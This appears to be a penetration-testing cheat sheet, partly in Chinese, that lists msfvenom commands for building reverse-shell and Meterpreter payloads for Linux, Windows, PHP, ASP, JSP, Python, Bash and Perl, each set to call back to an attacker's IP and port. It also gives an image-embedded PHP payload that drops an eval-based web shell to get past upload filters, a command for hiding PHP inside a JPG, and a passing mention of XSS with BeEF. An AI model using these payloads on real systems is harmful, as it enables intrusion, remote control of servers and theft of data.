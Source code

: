 **Linux：**

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=\<Your IP Address\>
LPORT=\<Your Port to Connect On\> -f elf \> shell.elf

**Windows**:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=\<Your IP Address\>
LPORT=\<Your Port to Connect On\> -f exe \> shell.exe

**PHP**:

msfvenom -p php/meterpreter_reverse_tcp LHOST=\<Your IP Address\>
LPORT=\<Your Port to Connect On\> -f raw \> shell.php

cat shell.php \| pbcopy && echo \'\<?php \' \| tr -d \'\\n\' \>
shell.php && pbpaste \>\> shell.php

**ASP**:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=\<Your IP Address\>
LPORT=\<Your Port to Connect On\> -f asp \> shell.asp

**JSP**:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=\<Your IP Address\>
LPORT=\<Your Port to Connect On\> -f raw \> shell.jsp

**Python**:

msfvenom -p cmd/unix/reverse_python LHOST=\<Your IP Address\>
LPORT=\<Your Port to Connect On\> -f raw \> shell.py

**Bash**:

msfvenom -p cmd/unix/reverse_bash LHOST=\<Your IP Address\> LPORT=\<Your
Port to Connect On\> -f raw \> shell.sh

**Perl**:

msfvenom -p cmd/unix/reverse_perl LHOST=\<Your IP Address\> LPORT=\<Your
Port to Connect On\> -f raw \> shell.pl

文件上传：

如果他是先将图片上传上去，才开始进行判断后缀名、二次渲染

我们就可以使用下崽的办法发应该图片马内容如下 （）

\<?php

fputs(fopen(\'shell.php\',\'w\'),\'\<?php \@eval(\$\_POST\[cmd\])?\>\');

?\>

![itm1zcfvcc.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image83.png){width="5.760416666666667in"
height="2.244925634295713in"}

windows 图片马生成隐藏信息:copy 1.jpg/b+2.php 3.jpg

xss beef 使用链接比用公式
